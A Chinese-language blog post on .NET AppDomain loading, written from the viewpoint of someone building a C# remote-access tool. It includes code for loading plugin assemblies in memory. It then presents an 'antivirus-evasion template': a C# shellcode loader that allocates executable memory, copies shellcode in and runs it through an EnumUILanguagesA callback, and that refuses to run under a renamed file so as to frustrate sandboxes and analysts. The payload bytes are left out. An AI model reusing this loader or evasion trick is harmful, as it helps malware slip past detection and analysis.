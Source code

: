 ```yaml
---
title: 一种利用Appdomain特性实现隐蔽的反沙箱分析
date: 2023-2-17 09:29:19
categories: 
- Develop
tags:
- .Net
- Appdomain
- Anti-VM
---
```

这次是标题党了，主要还是记录一下自己在使用Appdomain中遇到的一点小坑

# 前情提要

我一直很喜欢使用C#制作一些工具，或者制作一些技术的poc，在测试杀软对行为的拦截时为了避免频繁文件落地，都是使用对一个C#远控添加插件的方式测试的。

最常用的插件加载方式就是Assembly.Load了，使用过的都会发现这种方式可以加载不能卸载，用Procexp之类的软件可以很方便的查看进程内的Assembly。虽然临时测试并不是太需要保证自身进程干净，但是还是想要解决一下这个问题。

# 解决过程

在未提供接口卸载Assembly的情况下，最合适的方法是在新Appdomain中加载Assembly，并在使用后直接卸载Appdomain。

```csharp
var appDomain = AppDomain.CreateDomain("Demo");
var asm = appDomain.LoadFrom("test.dll");
asm.EntryPoint.Invoke(null, null);

AppDomain.Unload(appDomain);
```

但是如果第二行改为使用Load函数，从内存中加载，就有可能发现FileNotFoundException的问题，这里就为后面的坑做下了铺垫，但是我没有在这里注意到这个问题。通过谷歌搜索发现了CreateInstanceAndUnwrap这个好东西，同时也想起来了之前收藏的文章[https://rastamouse.me/net-reflection-and-disposable-appdomains/](https://rastamouse.me/net-reflection-and-disposable-appdomains/)，所以参考文中实例，很快我就完成了自己远控中的加载执行的部分，并且完美通过调试

```csharp
public class ShadowRunner : MarshalByRefObject
{
    public string[] LoadAssembly(byte[] assembly, string[] args, string sMethod)
    {
        var asm = Assembly.Load(assembly);
        var test = new string[] { };
        foreach (var type in asm.GetTypes())
            foreach (var method in type.GetMethods())
                if (method.Name.ToLower().Equals(sMethod.ToLower()))
                    test = (string[])method.Invoke(null, new object[] { args });
        return test;
    }
}

public static void loadAppDomainModule(string sMethod, string sAppDomain, byte[] bMod)
{
    var oDomain = AppDomain.CreateDomain(sAppDomain, null, null, null, false);
    var runner = (ShadowRunner)oDomain.CreateInstanceAndUnwrap(typeof(ShadowRunner).Assembly.FullName,
        typeof(ShadowRunner).FullName);
    var result = runner.LoadAssembly(bMod, new[] { "test" }, sMethod);
    return;
}
```

但是在实际使用过程中，把远控的client端转为shellcode，并随便套了一个加载器，之后就出现了问题，当时我就按照习惯把问题归为.Net历史遗留问题或者donut的实现问题，有可能是自己加载的CLR环境出现了问题，前后调试对比了很久也没有找出问题所在。

还是后面想起来错误是FileNotFoundException，就看错误提示感觉很不合理，进而用Procmon跟了下，发现Appdomain加载程序集居然有一套类似dll搜索的搜索顺序，会在自身目录以及默认目录搜索文件，未发现文件就报错。

这个问题的本质是Appdomain在CreateInstanceAndUnwrap中会根据程序集名称去磁盘上加载ShadowRunner所在程序集，从而产生一系列的问题，类似的情况在Appdomain的其他函数中也可以复现。

可以说是完全断了这种操作的Assembly去做一些转化再免杀的方案，如果真想搞的话，可以hook一下自己进程的NtCreateFile等函数，让进程认为有这个文件嘛

# 附带的利用

坏消息是，动态加载卸载这个东西很难去做武器化了，好消息是，我们知道了Appdomain中找不到文件名对应的文件就不加载的特性（大概注意到这个问题的人不太多，毕竟按照写Assembly.Load的思路，不会遇到这个问题）

所以就制作了一个简单的免杀模板（此处只展示加载部分）

```csharp
using System;
using System.Runtime.InteropServices;

namespace test
{
    class Program
    {
        [DllImport("ntdll.dll")]
        private static extern bool RtlMoveMemory(IntPtr addr, byte[] pay, uint size);
        [DllImport("kernelbase.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, int flAllocationType, int flProtect);
        [DllImport("kernel32.dll")]
        private static extern bool EnumUILanguagesA(IntPtr lpUILanguageEnumProc, uint dwFlags, IntPtr lParam);

        public static void Main(string[] args)
        {
            AppDomain tempDomain = AppDomain.CreateDomain("Temp");
            tempDomain.DoCallBack(Load);
        }

        private static void Load()
        {
            byte[] shellcode = { ...};
            IntPtr p = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x00001000, 0x0040);
            RtlMoveMemory(p, shellcode, (uint)shellcode.Length);
            EnumUILanguagesA(p, 0, IntPtr.Zero);
        }
    }
}
```

编译后如果文件名与编译时设置的程序集名称不同的话，就无法执行，但是文件中不包含任何判断文件名的部分。

# 总结

Appdomain加载卸载Assembly的思路我目前还没能完善，有待解决，但是顺路发现了一个比较隐蔽的小技巧，对于样本分析上会有一定的干扰作用，可以配合其他方法使用。（如故意添加一个判断自身文件名是否符合的函数，在分析人员用dnspy修改删除后发现还是文件名不符合执行不了一定会一脸懵逼，哈哈）
